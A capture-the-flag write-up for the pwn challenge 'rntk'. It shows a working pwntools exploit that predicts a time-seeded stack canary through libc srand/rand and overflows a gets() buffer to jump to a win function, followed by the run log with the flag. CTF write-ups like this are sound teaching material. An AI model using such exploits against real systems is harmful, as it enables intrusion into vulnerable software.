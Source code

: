 # rntk

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/cf7a3562-f399-40c7-8190-a871c304b169)

example:
```
Please select one of the following actions
1) Generate random number                 
2) Try to guess a random number           
3) Exit                                   
1
289992663
Please select one of the following actions
1) Generate random number
2) Try to guess a random number
3) Exit
2
Enter in a number as your guess: 2
Better luck next time
Please select one of the following actions
1) Generate random number
2) Try to guess a random number
3) Exit
3
```

## solution

let's take a look at it in binja

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/4815fc7c-8419-429f-a826-13297cd59a5a)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/70774450-10fe-4a7e-9cc7-149efec75aa6)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/2444dc72-be0b-4643-9f3c-966fa4240f03)

we need to redirect execution to the win function

to do that, we can exploit `gets` in the `random_guess` to cause buffer overflow

however, we have to also keep the global_canary intact because otherwise stack smashing will be detected and the program will exit

luckily for us, the global canary just uses the seed of the random function is the time, so we can predict the global canary

then, we can overwrite the return address on the stack to redirect execution to the win function

solve.py
```py
from pwn import *
from time import time
from ctypes import CDLL
from ctypes.util import find_library

libc = CDLL(find_library("c"))

# p = process(["./rntk"])
p = remote("amt.rs", 31175)
# gdb.attach(p, "break *0x401384\nc")

libc.srand(int(time())+1)
print(libc.rand())
libc.srand(int(time()))
randed = (libc.rand())
print(randed)
libc.srand(int(time())-1)
print(libc.rand())

p.sendline(b"2")
p.sendline(cyclic(44) + p32(randed) + b"\x7f\xff\x00\x00\x00\x00\x00\x00" + p32(0x4012b6))

p.interactive()
```

it takes a few times because time is varying, but we eventually get the flag

```
[+] Opening connection to amt.rs on port 31175: Done
207278010
1579724371
809115839
[*] Switching to interactive mode
Please select one of the following actions
1) Generate random number
2) Try to guess a random number
3) Exit
Enter in a number as your guess: Better luck next time
amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to amt.rs port 31175
```

additionally, we dont have to deal with ASLR, because the win function is inside of the main program and this is not an attack involving libc

